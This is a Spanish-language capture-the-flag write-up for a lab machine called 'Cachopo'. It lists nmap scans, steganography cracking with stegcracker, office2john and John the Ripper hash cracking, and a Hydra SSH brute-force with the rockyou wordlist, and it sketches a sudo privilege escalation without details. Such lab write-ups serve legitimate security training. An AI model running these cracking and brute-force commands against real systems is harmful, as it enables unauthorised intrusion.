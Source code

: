 # CTF Write-up: Cachopo – The Hackers Labs

## Introducción

En este reto CTF, se trabajó sobre la máquina **Cachopo** del laboratorio de The Hackers Labs. Este desafío abarca múltiples técnicas ofensivas como:

- Enumeración de red.
- Esteganografía en archivos.
- Ataques de fuerza bruta.
- Escalada de privilegios.

A través de una correcta identificación de configuraciones erróneas y análisis detallado, se logró comprometer por completo el sistema objetivo. Este write-up documenta cada paso seguido para lograr el acceso a nivel **root**.

---
## Uso de NMAP
```bash
nmap -p- -sCV --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3
``` 

## 1. Enumeración de Red

### Escaneo de dispositivos en red

```bash
arp-scan -I eth0 --localnet
```
![nmap1](Images/cachopo_nmap1.png)

![nmap2](Images/cachopo_nmap2.png)

### Descubrimiento de hosts activos

```bash
nmap -sP 10.0.2.0/24
```

### Escaneo detallado de puertos y servicios

```bash
nmap -sV -sC -p- 10.0.2.20
```

**Resultado**:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3
80/tcp open  http    Apache httpd 2.4.61
```

- **Puerto 22**: SSH.
- **Puerto 80**: HTTP (con redirección a `cachopo.thl`).

---

## 2. Análisis del Servicio Web

### Acceso inicial

- El sitio web redireccionaba a `http://cachopo.thl/`.
- Se añadió `10.0.2.20 cachopo.thl` a `/etc/hosts`.

### Descarga de archivo sospechoso

- Se descargó una imagen JPG desde el sitio.
- La imagen estaba protegida y contenía información oculta.

---

## 3. Esteganografía

###  Uso de StegCracker

```bash
stegcracker imagen.jpg /usr/share/wordlists/rockyou.txt
```

**Contraseña obtenida**: `doggies`

- Se extrajo un archivo oculto desde la imagen.
- Dentro, se encontró un archivo llamado `Cocineros`.

---

## 4. Análisis del Archivo “Cocineros”

### Verificación de tipo de archivo

```bash
file Cocineros
```

→ Se detectó como archivo `.docx`.

### Extracción de hash con `office2john`

```bash
office2john Cocineros > hash.txt
```

### Ataque de fuerza bruta

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Contraseña recuperada**: `horse1`

---

## 5. Análisis del Documento

- Al abrir el documento (`Cocineros.docx`) con LibreOffice, se encontraron **tres nombres**.

Estos se usaron como posibles usuarios para ataque SSH:

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.0.2.20 -t 4
```

---

## 6. Acceso a SSH

Una vez hallado el usuario y contraseña correctos, se accedió al sistema vía SSH:

```bash
ssh usuario@10.0.2.20
```

---

## 7. Escalada de Privilegios

### Ver comandos con `sudo`:

```bash
sudo -l
```

- Se identificó un **binario vulnerable** con permisos sudo.

### Ejecución del binario vulnerable

- Al ejecutarlo, se logró acceso a **root** gracias a una mala configuración de permisos.

---

## 🏁 8. Conclusión

Este CTF nos permitió aplicar varias técnicas clave de pentesting:

- Enumeración de red y servicios.
- Esteganografía aplicada.
- Ataques de fuerza bruta a servicios.
- Escalada de privilegios basada en binarios vulnerables.

📢 ¡Acceso root conseguido!

---

## 📷 Evidencia





